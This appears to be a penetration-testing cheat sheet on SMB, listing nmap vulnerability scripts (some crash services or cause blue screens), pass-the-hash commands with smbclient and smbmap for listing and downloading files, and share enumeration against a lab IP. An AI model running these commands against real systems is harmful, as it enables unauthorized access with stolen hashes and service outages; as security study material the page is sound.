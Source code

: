 ```yaml
---
layout: default
title: SMB
tags:
    - 139
    - 445
    - block
    - message
    - samba
    - server
    - smbclient
    - smbd
    - smbmap
---
```

# SMB
### Nmap scripts
Safe vulnerability scan
```shell
nmap -p 445 -vv --script smb-vuln-ms06-025,smb-vuln-ms07-029,smb-vuln-ms08-067,smb-vuln-ms10-061,smb-vuln-ms17-010,smb-vuln-cve-2017-7494 10.10.10.10
```

Windows 2000 regsvc null pointer crash (_**service crashes if successful**_)
```shell
nmap -p 445 -vv --script smb-vuln-regsvc-dos 10.10.10.10
```

CVE-2009-3103 DOS check (Windows Vista and some of 7 - _**BSOD if successful**_)
```shell
nmap -p 445 -vv --script smb-vuln-cve2009-3103 10.10.10.10
```

CVE-2010-2550 memory corruption check (_**BSOD if successful**_)
```shell
nmap -p 445 -vv --script smb-vuln-ms10-054 10.10.10.10
```

### Pass-the-hash
List directories
```shell
smbclient -U <user>%<hash> --pw-nt-hash -L 10.10.10.10
```
```shell
smbmap -u <user> -p '<NTLM hash>:<LM hash>' -H 10.10.10.10
```
- _LM hash is legacy and can usually be anything_
- `--download <path>`: download file
- `-R`: recursively list files

Open specific directory

```shell
smbclient -U <user>%<hash> --pw-nt-hash //10.10.10.10/<directory>
```

### Regular usage
Mount
```shell
mount -t cifs -o username=[USERNAME] //10.10.10.10/ /mnt/smb/
```

SMBMap
```shell
smbmap -H 10.10.10.10
```

```shell
smbmap -H 10.10.10.10 -u [USERNAME] 
```
- Sometimes adding anything to the `-u` field will return results